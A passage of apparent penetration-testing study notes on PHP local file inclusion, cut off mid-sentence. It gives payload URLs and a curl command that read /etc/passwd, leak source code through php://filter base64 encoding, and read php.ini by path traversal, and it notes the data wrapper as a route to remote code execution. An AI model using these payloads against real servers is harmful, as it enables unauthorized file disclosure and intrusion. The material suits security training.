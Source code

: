 Example:&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

### PHP Wrappers

#### Filter

We can access php filter with `php://filter/` The filter wrapper has several parameters, but the main ones we require for our attack are resource and read. **4 types of filters**: String Filters, Conversion Filters, Compression Filters, and Encryption Filters

**PHP Inclusion Using Filter**

To read _source code_ instead of executing the php file like this:&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```

Use the filter:

```
php://filter/read=convert.base64-encode/resource=config
```

Use like this

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

This returns base64 encoded file.

**Checking PHP Configurations**

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`).

We will also use the base64 filter we used in the previous section, as .ini files are similar to .php files and should be encoded to avoid breaking.

#### Data

This wrapper can be used for **RCE**

Check `allow_url_include` if enabled, this option is not enabled by default:

* `/etc/php/X.Y/apache2/php.ini` for apache
* `/etc/php/X.Y/fpm/php.ini` for Nginx Example:

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Then check with
